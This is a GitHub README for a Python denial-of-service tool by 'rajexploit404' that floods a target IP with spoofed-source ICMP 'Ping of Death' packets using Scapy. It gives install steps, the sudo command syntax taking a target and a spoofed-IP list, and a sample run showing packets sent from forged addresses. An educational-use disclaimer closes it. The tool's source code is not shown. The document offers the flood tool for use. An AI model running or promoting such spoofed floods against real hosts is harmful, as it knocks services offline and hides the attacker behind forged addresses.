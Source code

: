 # Simple DDoS with IP Spoofing by **rajexploit404**

A straightforward Python script for **Ping of Death (PoD)** attacks with IP spoofing. Built for educational and research purposes only. Misuse of this tool is strictly prohibited.

---

## **Features**
- Uses **Scapy** to send spoofed ICMP packets.
- Supports **multi-threading** and **multi-processing** for optimal performance.
- Customizable input for spoofed IP lists and target IPs.
- Designed with a clear and professional **RAJSEC banner**.

---

## **Banner**

```plaintext
  ██████╗  █████╗      ███████╗███████╗███████╗ ██████╗
 ██╔════╝ ██╔══██╗     ██╔════╝██╔════╝██╔════╝██╔═══██╗
 ██║  ███╗███████║     ███████╗█████╗  █████╗  ██║   ██║
 ██║   ██║██╔══██║     ╚════██║██╔══╝  ██╔══╝  ██║   ██║
 ╚██████╔╝██║  ██║     ███████║███████╗██║     ╚██████╔╝
  ╚═════╝ ╚═╝  ╚═╝     ╚══════╝╚══════╝╚═╝      ╚═════╝
 
  Simple PoD with IP Spoofed by rajexploit404
```

---

## **Requirements**
1. **Python 3.8+**
2. **Scapy Library**: Install using:
   ```bash
   pip install scapy
   ```
3. Root privileges (**sudo**) are required for sending raw packets.

---

## **Usage**
Run the script with the following syntax:
```bash
sudo python3 main.py <target_ip> <spoofed_ip_list>
```

### **Parameters**
- **`<target_ip>`**: The target IP address to flood.
- **`<spoofed_ip_list>`**: File containing spoofed IP addresses, one per line.

---

## **Example**

```bash
┌──(rajexploit404㉿rajsec)-[~/POD]
└─$ sudo python3 main.py 123.123.123.123 spoof.txt
```

Output:

```plaintext
  ██████╗  █████╗      ███████╗███████╗███████╗ ██████╗
 ██╔════╝ ██╔══██╗     ██╔════╝██╔════╝██╔════╝██╔═══██╗
 ██║  ███╗███████║     ███████╗█████╗  █████╗  ██║   ██║
 ██║   ██║██╔══██║     ╚════██║██╔══╝  ██╔══╝  ██║   ██║
 ╚██████╔╝██║  ██║     ███████║███████╗██║     ╚██████╔╝
  ╚═════╝ ╚═╝  ╚═╝     ╚══════╝╚══════╝╚═╝      ╚═════╝

  Simple PoD with IP Spoofed by rajexploit404

[?] Loaded 3000 spoofed IPs from spoof.txt
[?] Starting packet flood...
[+] Packet sent from 31.147.186.29 to 123.123.123.123
[+] Packet sent from 28.160.190.195 to 123.123.123.123
[+] Packet sent from 136.91.104.67 to 123.123.123.123
[+] Packet sent from 165.98.179.114 to 123.123.123.123
[+] Packet sent from 176.40.228.221 to 123.123.123.123
[+] Packet sent from 93.161.149.146 to 123.123.123.123
```

---

## **Invalid Usage**

If the script is run without `sudo` or with insufficient arguments, the following error is displayed:

```plaintext
[!] This script must be run with sudo privileges!
Usage: sudo python3 main.py <target_ip> <spoofed_ip_list>
```

---

## **Disclaimer**
This tool is for **educational purposes only**. Use it responsibly and only with the explicit permission of the target. Misuse can result in legal consequences.
